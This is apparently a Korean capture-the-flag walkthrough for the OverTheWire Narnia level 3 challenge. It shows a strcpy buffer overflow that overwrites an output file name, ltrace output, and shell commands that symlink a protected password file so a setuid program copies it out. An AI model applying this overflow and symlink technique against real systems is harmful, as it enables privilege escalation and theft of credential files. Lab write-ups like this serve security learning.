 <br>

입력을 ```ebp-0x38```에서 받고 ```/dev/null```이 있는 곳은 ```ebp-0x18```에 있음.   

```/dev/null```은 아무런 출력 값을 내놓지 않으므로 이 값을 내가 만든 파일로 바꿀꺼임.  

<br>

```sh
narnia3@narnia:/narnia$ ltrace ./narnia3 `python -c 'print "a"*32+"BBBB"'`
__libc_start_main(0x804850b, 2, 0xffffd764, 0x8048620 <unfinished ...>
strcpy(0xffffd690, "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"...)                         = 0xffffd690
open("BBBB", 2, 037777777777)                                                     = -1        
printf("error opening %s\n", "BBBB"error opening BBBB
)                                              = 19  
exit(-1 <no return ...>
+++ exited (status 255) +++
```

<br>

따라서 비밀번호 파일을 링크를 해줘서 그 파일을 읽게 한 다음 내가 읽을 파일에 쓰여지게 해주면 됨.  

<br>

```
BBBB 부분은 /tmp/password 로 변경해줄꺼임.
32byte 부분은 /tmp/+"b"*27로 해줄꺼임.

-> /tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb/tmp/password
```

<br>

따라서 우리는 두 가지의 파일을 생성해줘야 함.  

첫 번째는 ```/tmp/password``` 파일과  
두 번째는 ```/tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb/tmp/password``` 파일임.  

두 번째 파일을 password 링크 파일로 해줘서 이 파일을 읽게 하여 첫 번째 파일에 쓰여지게 할꺼임.

<br>

```
narnia3@narnia:/narnia$ touch /tmp/password
narnia3@narnia:/narnia$ ls -al /tmp/password
-rw-r--r-- 1 narnia3 root 0 Jan 22 06:58 /tmp/password
narnia3@narnia:/narnia$ chmod 777 /tmp/password
narnia3@narnia:/narnia$ ls -al /tmp/password
-rwxrwxrwx 1 narnia3 root 0 Jan 22 06:58 /tmp/password
```

<br>

```/tmp/password```에는 ```narnia4```의 권한이 없으므로 권한을 줘야함.  

이제 두 번째 파일을 생성해야 함.  

<br>

```
narnia3@narnia:/narnia$ mkdir /tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb/tmp
narnia3@narnia:/tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb/tmp$ ln -s /etc/narnia_pass/narnia4 password
narnia3@narnia:/tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb/tmp$ ls -al
total 8
drwxr-sr-x 2 narnia3 root 4096 Jan 22 07:01 .
drwxr-sr-x 3 narnia3 root 4096 Jan 13 16:18 ..
lrwxrwxrwx 1 narnia3 root   24 Jan 22 07:01 password -> /etc/narnia_pass/narnia4
```

<br>

```